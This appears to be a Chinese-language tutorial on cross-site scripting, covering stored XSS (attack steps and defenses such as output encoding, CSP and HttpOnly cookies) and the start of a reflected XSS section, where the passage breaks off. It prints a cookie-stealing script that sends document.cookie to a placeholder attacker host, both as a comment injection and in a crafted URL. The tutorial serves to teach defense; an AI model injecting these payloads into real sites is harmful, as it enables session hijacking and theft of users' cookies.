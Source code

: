 
# XSS 攻击案例
## 常见 XSS 攻击案例
跨站脚本攻击（XSS）是一种常见的 Web 安全漏洞，攻击者通过在网页中注入恶意脚本，窃取用户信息、劫持用户会话或执行其他恶意操作。以下是三种常见的 XSS 攻击案例及其详细说明：

### 1. 存储型 XSS（Stored XSS）

**描述**：
存储型 XSS 是指攻击者将恶意脚本永久存储在目标服务器上，例如在博客、论坛、用户评论、数据库等地方。当其他用户访问包含恶意脚本的页面时，浏览器会执行这些脚本。

**攻击过程**：

1. **注入恶意脚本**：
   - 攻击者在博客或论坛中发布包含恶意脚本的评论。例如：
     ```html
     <script>fetch('https://attacker.com/steal?cookie=' + document.cookie);</script>
     ```

2. **存储恶意脚本**：
   - 网站将攻击者的评论存储在数据库中，并将其显示在博客或论坛的页面上。

3. **执行恶意脚本**：
   - 当其他用户访问该页面时，浏览器会执行恶意脚本，窃取用户的 Cookie 并发送到攻击者的服务器。

**防护措施**：

- **输入验证和输出编码**：
  - 对用户输入进行严格验证和过滤，并在输出到页面之前进行适当的编码（如 HTML 实体编码）。

- **内容安全策略（CSP）**：
  - 配置 CSP 头部，限制可执行的脚本来源。

- **使用 HttpOnly Cookie**：
  - 设置 Cookie 的 HttpOnly 属性，防止 JavaScript 访问 Cookie。

**示例**：
```html
<!-- 攻击者在评论中注入恶意脚本 -->
<script>alert('XSS');</script>
```

### 2. 反射型 XSS（Reflected XSS）

**描述**：
反射型 XSS 是指恶意脚本通过请求参数（如 URL 参数）传递给服务器，然后服务器将恶意脚本反射回响应页面。当用户点击包含恶意脚本的链接时，浏览器会执行这些脚本。

**攻击过程**：

1. **构造恶意 URL**：
   - 攻击者构造一个包含恶意脚本的 URL，并诱导用户点击。例如：
     ```
     https://example.com/search?query=<script>fetch('https://attacker.com/steal?cookie=' + document.cookie);</script>
     ```
